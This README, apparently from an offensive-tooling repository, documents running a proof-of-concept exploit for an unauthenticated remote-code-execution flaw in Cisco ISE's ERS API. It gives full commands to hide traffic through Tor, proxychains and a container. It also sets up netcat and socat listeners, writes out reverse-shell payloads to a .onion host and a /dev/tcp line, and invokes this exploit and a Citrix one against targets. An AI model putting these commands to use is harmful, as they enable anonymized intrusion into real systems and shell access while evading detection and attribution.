


## CVE-2025-20281 Unauthenticated PoC - as an example

NOTE: Each exploit is different and might require other dependencies that will need to be installed during the build phase.

##

A minimal Python proof-of-concept that exploits the unauthenticated RCE in Cisco ISE’s ERS API (CVE-2025-20281) by injecting arbitrary shell commands into the `InternalUser` resource.  

> **Warning:** Only run against systems you own or have explicit permission to test.

### Features

- No authentication required  
- Supports two modes:
  - `--whoami` to run `whoami` on the target and display the HTTP response  
  - `--reverse` to spawn a bash reverse shell back to your listener
  
### Modify the url variable in script to the correct IP/Port

After conducting recon (see ttps/1_Recon/scanners) to find vulnerable Cisco ISE’s ERS API targets IP and Port, the next step would be to attempt exploitation.

```python
# line 15/16
#url = f"https://{target}:9060/ers/sdk#_"
url = f"https://{target}/ers/sdk#_"
#url = f"https://{target}:8443/ers/sdk#_"
```

### Build, Run, and test Tor/Proxychains

```bash
# change dns, using quad9 - change this to nameserver other than ISP
sudo mv /etc/resolv.conf /etc/resolv.conf.bak
sudo touch /etc/resolv.conf
echo -ne 'nameserver 9.9.9.9\nnameserver 149.112.112.112' | sudo tee -a /etc/resolv.conf

# build image
podman build -t <some_name> .

# runtime exploit with all tools needed to conceal ingress/egress
podman run -it --name <some_name> \
    --cap-add=net_admin \
    --device /dev/net/tun \
    -v /etc/resolv.conf:/etc/resolv.conf:ro \
    -p 127.0.0.1:8118:8118 -p 127.0.0.1:9050:9050 -p 127.0.0.1:9051:9051 \
    -d <some_name>

podman exec -it <some_name> /bin/bash

# verify traffic is routing through tor
curl --socks5 localhost:9050 --socks5-hostname localhost:9050 https://check.torproject.org/api/ip
curl --socks5 127.0.0.1:9050 --socks5-hostname localhost:9050 http://checkip.amazonaws.com/

# IDS hits from local interface to verify tor routing
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 116 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 89.58.41.156:143 -> 192.168.1.248:56096
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 188 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 148.113.183.0:9001 -> 192.168.1.248:59218
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 516 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 77.73.70.176:443 -> 192.168.1.248:45074
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 606 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 94.16.123.67:443 -> 192.168.1.248:37934

# verify proxychains
proxychains curl http://checkip.amazonaws.com/

# verify privoxy, you can also route your host browser through this container on tor
curl -Lx http://127.0.0.1:8118 http://checkip.amazonaws.com/
```
<p align="center">

</p>

### Listener Example
##

<p align="center">

</p>

```bash
# open shell
podman exec -it <some_name> /bin/bash

# set vars
LHOST=<your ip>
LPORT=<port for reverse shell>

## listening port examples
# basic
nc -lvnp $LPORT

# better
rlwrap nc -lvnp $LPORT
```

### Route Reverse Shell through Tor
##

<p align="center">

</p>

```bash
### through tor

# open shell to set vars
podman exec -it <some_name> /bin/bash

####### line 107/108 - Dockerfile ########
# echo 'HiddenServiceDir /var/lib/tor/hidden_service/' >>/etc/tor/torrc ; \
# echo 'HiddenServicePort 4444 127.0.0.1:4444' >>/etc/tor/torrc ; \
LPORT=4444 # the port set in line 108
LHOST=$(cat /var/lib/tor/hidden_service/hostname)
RSHELL="socat file:$(tty),raw,echo=0 TCP-L:$LPORT"

# you can also run torproxy.sh script to change port
# Options (fields in '[]' are optional, '<>' are required):
#    -h          This help
#    -b \"\"       Configure tor relaying bandwidth in KB/s
#                possible arg: \"[number]\" - # of KB/s to allow
#    -e          Allow this to be an exit node for tor traffic
#    -l \"<country>\" Configure tor to only use exit nodes in specified country
#                required args: \"<country>\" (IE, "US" or "DE")
#                <country> - country traffic should exit in
#    -n          Generate new circuits now
#    -p \"<password>\" Configure tor HashedControlPassword for control port
#    -s \"<port>;<host:port>\" Configure tor hidden service
#                required args: \"<port>;<host:port>\"
#                <port> - port for .onion service to listen on
#                <host:port> - destination for service request

podman exec -it <some_name> bash -c '/usr/bin/torproxy.sh -s \"<port>;<host:port>\"'

# open seperate shell in term
podman exec <some_name> /bin/bash
$RSHELL # begin listener

# execute exploit in another shell
podman exec <some_name> /bin/bash

# cmd on target
# get tor hostname
echo $LHOST
a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion:4444

# should get HTTP response back, after discovery probe
proxychains python3 CVE-2025-20281.py XXX.XXX.XX.XXX --whoami

# execute exploit to spawn a reverse shell
proxychains python3 CVE-2025-20281.py XXX.XXX.XX.XXX --reverse a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion 4444

# another example different exploit
proxychains python3 exploit-citrix-xen.py -t XXX.XX.XXX.XXX -p XXXX -c "/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1"

# tor/socat would have to be on the target
proxychains python3 exploit-citrix-xen.py -t XXX.XX.XXX.XXX -p XXXX \
  -c "torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion:4444"
```

### Teardown
##
```bash
podman stop <some_name>
podman system prune -f
```

This concludes an example of how to route traffic through tor along with using proxychains when executing exploit testing.  

